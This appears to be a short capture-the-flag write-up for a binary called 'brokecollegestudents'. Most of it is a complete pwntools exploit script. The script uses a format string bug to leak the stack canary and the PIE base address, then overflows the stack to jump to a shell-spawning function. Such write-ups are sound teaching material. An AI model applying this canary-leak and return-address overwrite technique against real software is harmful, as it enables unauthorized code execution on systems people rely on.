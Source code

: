 ### Download the binary from here : https://github.com/0xSh4dy/CTF-Writeups/blob/file/brokecollegestudents
### There is a format string vulnerability in the catch() function. Also, PIE is enabled and there is a stack canary. We can exploit the format string vulnerability to leak the stack canary and the base address of the elf
```
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./brokecollegestudents")
context.log_level = "debug"
p = process("./brokecollegestudents")
#gdb.attach(p)
def initRecv():
    p.sendlineafter("Choice: ","1")
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline("1")

initRecv()

# Leaking the Stack Canary
p.sendlineafter("name","%9$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]
canary = hex(int(leak,16))
log.info("Canary: {}".format(canary))
canary = int(canary,16)
initRecv()

#Leaking the base address of ELF
# I found this fmt payload after lots of debugging.
p.sendlineafter("name","%28$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]

leak = int(leak,16)
elf.address = leak-0x18f6
log.info("elf base address: {}".format(hex(elf.address)))
initRecv()
shell = elf.address + 0x14ec
payload = b'a'*24 + p64(canary) + b'a'*8+p64(shell)
p.sendline(payload)
p.interactive()
```
